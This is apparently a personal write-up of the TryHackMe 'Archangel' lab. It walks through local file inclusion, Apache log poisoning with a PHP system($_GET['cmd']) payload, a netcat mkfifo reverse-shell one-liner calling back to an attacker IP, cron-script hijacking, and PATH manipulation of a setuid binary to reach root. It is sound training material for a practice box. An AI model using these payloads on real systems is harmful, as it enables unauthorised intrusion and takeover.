 ```yaml
---
title: Archangel - TryHackMe
date: 2024-10-14 00:04:00 +100
categories: [TryHackMe Writeups]
tags: [linux, LFI, log poisoning]
image:
    path: "/assets/archangel/archangel.jpeg"
---
```


### Introduction

The Archangel room is a Boot2Root challenge that focuses on web exploitation, privilege escalation, and local file inclusion (LFI) vulnerabilities. The goal is to start from basic enumeration, exploit vulnerabilities on the web server, and eventually escalate privileges to gain root access.

This writeup will walk through each step, from scanning and discovering weaknesses to using those vulnerabilities to get control of the system. If you're interested in learning about web-based attacks and privilege escalation, this room offers a great hands-on experience.

### Initial Enumeration

Starting out with the Initial Enumeration.

#### Port Scanning

We start by scanning the target machinesing the command `nmap -A <target-IP>` to find open ports and ervices. This will help us understand what services are running.

![nmap scan](/assets/archangel/nmap.png)
We can see that we have an ssh port open on port 22 and an http port open on port 80

#### Web Enumeration

Since http port 80 is open, we would enumerate the web server using `gobuster` to find any hidden directories.
After using `gobuster`, I didn't find any interesting directory, but if we look back at the first question in **Task 2**, it said we should find a different hostname. We can see an email address plastered on the front page of the web server.
![email](/assets/archangel/email.png)
Lets try giving the IP address the hostname **mafialive.thm**. We can do this by navigating to the `/etc/hosts` file
![etc/hosts](/assets/archangel/etc.png)

After navigating to the site, we can see that it is correct and we got our first flag
![flag1](/assets/archangel/flag1.png)

Since the third question in **Task 2** asked us to look for a page under development, I ran the command `gobuster dir -u http://mafialive.thm -w /usr/share/dirb/wordlists/common.txt` and got the following result
![robots](/assets/archangel/robots.png)

Seeing that there is a _robots.txt_ file, i navigated there and got the page

![test](../assets/archangel/test.png)

### Exploitation

#### Local File Inclusion

I navigated to the `test.php` directory and we are met with this

![lfi page](<../assets/archangel/lfi page.png>)
With this we can see that the site might be vulnerable to local file inclusion. Looking back at the hint we were giving to find flag 2, we were told that the **_Best way to exploit lfi is to look at the code_**.

I then used the `php://filter` wrapper which can be used to read php files as plain text instead of executing them. just add this `php://filter/convert.base64-encode/resource`. I was met with the following base64 encoding

![basee64e](../assets/archangel/base64en.png)

Then after decoding it, i was met with this

![base64d](../assets/archangel/base64d.png)

Since that worked, i tried using the same method on the `test.php` file and got this base64 encoded text

![testen](../assets/archangel/testen.png)

After decoding it, i got the second flag

![testde](../assets/archangel/testde.png)

#### Log Poisoning

Seeing as the server is vulnerable to lfi, i also tried tampering the URL to see if i can perform a directory traversal. It was successful and I was able to access the `/etc/passwd` file.

![etcpass](../assets/archangel/etcpass.png)

Since the last question in task 2 ask us to _Get a shell and find the user flag_ and the hint given was **Poison!!!**. So i tried using that same method to check if i can access the `access.log` file and it worked

![accpage](../assets/archangel/accpage.png)

We are now a step closer to getting our result. Lets test out the log poisoning by injecting a whoami code into the web server using the `curl` command

![whoami](../assets/archangel/whoami.png)

_NOTE: The phpexec file is not an existing file, it is a random file i inputed and the reson i did that is to trigger an entry in the web server's log files, which is essential for log poisoning. When you send a request to a non-existent page, the web server typically logs the request in its access or error logs. In this case, by sending the curl request with a PHP payload in the User-Agent header (or any other header), we are trying to inject the PHP code `(<?php system('whoami'); ?>)` into the log file. The log file would then contain this PHP code_

Lets check the result by using the `curl` command to print out the content of the `access.log` file

![prwhoami](../assets/archangel/prwhoami.png)

We can see that it worked and we are met with the result of the executed `whoami` command. With this, we can see that RCE(Remote Code Execution) is possible. So now, i am going to send an inalid request to the server using netcat. we are requesting the page `/<?php phpinfo(); ?>`

![invalid req](<../assets/archangel/invalid req.png>)

Navigating back to the webpage and accesing the access.log directory, we were able to see the following

![phpinfo](../assets/archangel/phpinfo.png)
It means we were able to execute the code and load the `PHPInfo` file. Uing the method we used above, lets try and get a reverse shell from the server.

We will use this payload to execute system commands
`/<?php system($_GET[‘cmd’]); ?>` and use an encoded url reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f`. I encoded it using the site [urlencoder](https://www.urlencoder.org/)

I then parsed it into the webserver and started a netcat listener to receive the shell

![reversesh](../assets/archangel/reverseshell.png)
![alt text](../assets/archangel/shell.png)

And we were successful in getting the shell

Then after navigating to the `/home` directory and seeing an archangel user we were able to list out the content of the directory and get the user flag

![usertxt](../assets/archangel/usertxt.png)

### Privilege Escalation

I then started checking all other files we had access to but i wasnt able to see anything worthwhile. I then checked the `etc/crontab` file and saw that there is an `helloworld.sh` file that is owned by the archangel user and is running every 1 minute

![crontabfile](../assets/archangel/crontabfile.png)

lets try editing the file and injecting a reverse shell payload to see if we can get a shell to the archangel user

![archreverse](../assets/archangel/archrev.png)

I then started a netcat listener to get the shell and it worked. We now have access to the archangel user

![archrevgot](../assets/archangel/archrevgot.png)

we can now check and get our user2 flag

![user2flag](<../assets/archangel/user2 flag.png>)

#### Root Privilege Escalation

Its now time to escalate our privilege to root. If we check the `/home/archangel/secret` well, we can see that there is a backup file with **setuid** bit set which basically allows the program to run with the permissions of the file's owner, rather than the user executing it.

After trying to view the content of the file i was met with some gibberish but we can see that something stood out

![backupcontent](../assets/archangel/backupcont.png)

so i tried executing the file but got an error

![backuperr](../assets/archangel/backuperr.png)

But since we know that the executable backup file is using `cp` command, we can manipulate bothe the **PATH** variable and the `cp` command.

I created a cp file in the users home directory first, then i added the command `/bin/bash` in the file. Then i made the file executable using the command `chmod +x cp`. I then used the command `export PATH=/home/archangel:$PATH`. We can now execute the backup file again

![rootflag](../assets/archangel/rootflag.png)

As we can see, it was succesful and we were able to get the root flag.

**USEFUL RESOURCE**

- [LFI TO RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)
- [PRIV ESCALATION WITH PATH](https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de)
